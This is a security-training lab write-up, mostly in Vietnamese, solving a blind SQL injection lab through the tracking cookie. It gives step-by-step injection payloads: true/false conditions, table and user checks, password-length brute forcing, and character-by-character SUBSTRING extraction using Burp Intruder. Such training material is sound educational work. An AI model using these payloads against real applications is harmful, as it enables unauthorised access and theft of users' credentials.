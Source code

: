 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


# Overview

Ở lab này có lỗ hổng blind SQL. Application này sử dụng tracking cookie để phân tích, và biểu diễn SQL query gồm các giá trị cookie được nhập vào.Kết quả của cuộc truy vấn không được trả lại, và không error messages được hiện lên. Nhưng ứng dụng thì bao gồm tin nhắn `Welcome back` ở trang web nếu query trả lại.

Ta cần đăng nhập vào administrator user

Form lab

![image](https://user-images.githubusercontent.com/115911041/232667041-aaff9df7-e91e-4d6b-8680-a669c9d984f5.png)

# Solution

**Confirm vulnerable parameter**

Bởi vì là blind SQL, ta không thể thấy bất kì kết quả của cuộc truy vấn. Tuy nhiên, bởi vì chúng ta có thể request có cho phép dành cho các câu trả lời `True` hoặc `False` 

Bước đầu tiên, ta cần xác định lỗ hổng bằng cách đưa requests cho ra câu trả lời `True` hoặc `False`

**Query**

Query được sử dụng trong lab này sẽ như thế này
```
SELECT trackingId FROM someTable WHERE trackingID = '<COOKIE_VALUE>'
```

![image](https://user-images.githubusercontent.com/115911041/232670060-97d3b04a-285a-4315-a488-aecb2cdd0a52.png)

`Cookie TrackingId=oLNIUOwSGHWlzJH1; session=7B6p6OLLq4GUkMRhCwcZQprHcyc8CRzH`

Ta thấy có xuất hiện `Welcome back` ở phần Response

**True**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=1--'
```
![image](https://user-images.githubusercontent.com/115911041/232671266-492e4f61-95d9-433a-8a83-2950e05a114f.png)
Ta thấy có xuất hiện `Welcome back` ở phần Response

**False**
```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=2--'
```
![image](https://user-images.githubusercontent.com/115911041/232671623-2118d0f1-95ab-4c58-b95d-9759a0b7d022.png)
Không thấy xuất hiện `Welcome back`

**Confirm expected table**

Đầu tiên, mình xác nhận table `users` có tồn tại hay không. Lần này, mình sử dụng string dạng chữ từ table và so sánh nó.

``` 
SELECT trackingID FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select 'x' from users LIMIT 1)='x'--
```
![image](https://user-images.githubusercontent.com/115911041/232673130-8aab11dc-aa5c-4857-a2a0-db5988c96dd2.png)

Có kết quả `Welcome back`

**Verify columns exit as excepted**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select username from users where username='administrator')='administrator'--
```
![image](https://user-images.githubusercontent.com/115911041/232674592-c908658c-b912-47be-b4ed-bf710bd5b3f9.png)

Xuất hiện `Welcome back`

**Get the length of the password**

Tìm dộ dài của password.Ở đây, chúng ta sử dụng hàm `LENGTH` của database và so sánh nó với số.

![image](https://user-images.githubusercontent.com/115911041/232674862-29620f44-9689-478f-b8dc-2255dcf0e2cb.png)

Không cho ra `Welcome back`, password không có độ dài là 1

Thay vào đó, mình có thể kiểm tra lớn hơn thay vì bằng. Ở kết quả `Welcome back` nghĩa là password có độ dài lớn hơn 1.

Brute force độ dài với Burp Intruder (Sniper, Payload 1)

![image](https://user-images.githubusercontent.com/115911041/232675581-22e6d236-256a-4f15-8286-2d40ef956497.png)

![image](https://user-images.githubusercontent.com/115911041/232675635-5a1aa5b2-e598-4425-8184-caa3d4635c58.png)

Sau đó attack, kiểm tra request nào xuất hiện `Welcome back` thì sẽ ra độ dài của password ở vị trí đó. Mình thì độ dài là 20.

**Enumerate password of the administrator**

Ta đã có độ dài của password, bây giờ đã có thể brute force từng kí tự. Nếu database có lưu trữ hàm hash của password, ta có thể extract hash để cracking offline.

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select substring(password,1,1) from users where username='administrator')='a'--
```
![image](https://user-images.githubusercontent.com/115911041/232677055-c0e64e5e-498a-4551-80db-8c930243ed3e.png)

Ta nhận ra rằng kí tự đầu tiên không phải là `a`, sử dụng Burp Intruder để Brute Force

Attack type: ***Cluster bomb***

![image](https://user-images.githubusercontent.com/115911041/232677551-c4da07a3-98e5-4fb6-989e-1137856b9439.png)

***Payload 1: numeric squential, 1..20***
***Payload 2: Brute force

![image](https://user-images.githubusercontent.com/115911041/232677811-97a163e8-2bfe-450e-867f-d64e8111da07.png)

Theo như số thứ tự của payload 1 sẽ cho ra password:
`iwdzus40xqlsq8zms6v0`

**Tiến hành đăng nhập**

![image](https://user-images.githubusercontent.com/115911041/232678012-ab200efa-8465-4749-b2cf-f941c9ecf68b.png)

`

